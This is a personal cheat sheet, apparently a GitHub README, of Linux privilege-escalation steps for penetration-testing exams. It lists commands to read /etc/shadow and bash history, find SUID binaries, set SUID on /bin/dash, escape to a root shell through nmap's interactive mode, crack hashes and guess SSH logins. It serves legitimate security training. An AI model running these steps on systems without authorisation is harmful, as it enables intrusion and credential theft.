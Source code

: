 # ariel-shin Linux - Privilege Escalation 

## MUST RUN: ipconfig/ifconfig && whoami && cat local.txt/proof.txt

## Summary 
* [Process](#Process)
* [Compiling Exploits](Compiling-Exploits)
* [Cracking Passwords](#Cracking-Passwords)
* [Automated Scripts](#Automated-Scripts)
* [What to do when youre stuck](#What-to-do-when-youre-stuck)
* [Resources](#Resources)

## Process
* Reverse Shell
	* Check Different Ports, e.g. 80, 443
* Upgrade the shell
```
python -c 'import pty; pty.spawn(“/bin/sh”)'
```
* We have credentials
```
sudo su
```
* What's the OS? Version? Architecture? 
```os
cat /etc/*-release
uname -i
lsb_release -a #Debian Based OS
```

* Who are we? Where are we?
```who
id 
pwd
```

* Bash History 
```
history
cat .bash_history
```
* Google anything that looks weird
* See if root is running anything that showed up in the history

* Who uses the box? What users?
```passwd
cat /etc/passwd
grep -vE "nologin | false" /etc/passwd
```

* Can we access /etc/shadow?
```
cat /etc/shadow
ls -al /etc/shadow
```

* What's currently running on the box? What active network services are there?
```ps
ps aux
netstat -antup
```

* Installed? Kernel?
```
dpkg -l #Debian based OS
rpm -qa #CentOS?openSUSE
uname -a # Kernel Exploits
```

* Sensitive Files
```config
find . -iname '*config'
```

* mysql
```mysql
mysql -uroot -ppassword -e 'show databases;' //no spaces for password
```

* See who's logged in 
```w
w
```

Display the list of all the users logged in and out since the file /var/log/wtmp was created
```last
last root 
```

* Find places to write files to
	* View File Permissions
	```
	ls -al
	```

	* If the above command doesn't work, view fstab
	```
	cat /etc/fstab
	//attempt to write to different locations in <mount point>
	echo "a" > test.txt
	```

* Check sticky bit
```
find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.

find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)

# find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
```
	* Can also change SUID
	```
	chmod 4755 /bin/dash
	```

* Discover tools
```
find / -name wget
find / -name nc<em>
find / -name netcat</em>
find / -name tftp*
find / -name ftp
```

* Look at the original low privilege shell for notes 
* Look for interesting things e.g. nmap 
```
sudo nmap --interactive
nmap> !sh
id 
```
[Back](#summary)

## Compiling Exploits
* gcc
``` 
gcc exploit.c -o exploit
./exploit
```
* mingw32
``` 
TO DO
```
[Back](#summary)

## Cracking Passwords
* Google it
* Search on hashkiller.co.uk
* John The Ripper
```
john textfile
```

[Back](#summary)

## Automated Scripts
* [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py)
* [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)
```
LinEnum.sh -t
```
	* t: thorough
* [Unix-Privesc-Check](https://github.com/pentestmonkey/unix-privesc-check)
* [Linux Exploit Suggester](https://tools.kali.org/exploitation-tools/linux-exploit-suggester)

[Back](#summary)

## Resources
* [g0tmilk](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

[Back](#summary)

## What to do when you're stuck
* [Calm down](https://www.youtube.com/watch?v=F28MGLlpP90)
* Take a breath 
* Look for usernames that could have been found
	* Try to ssh by guessing credentials
* Google anything running by root

[Back](#summary)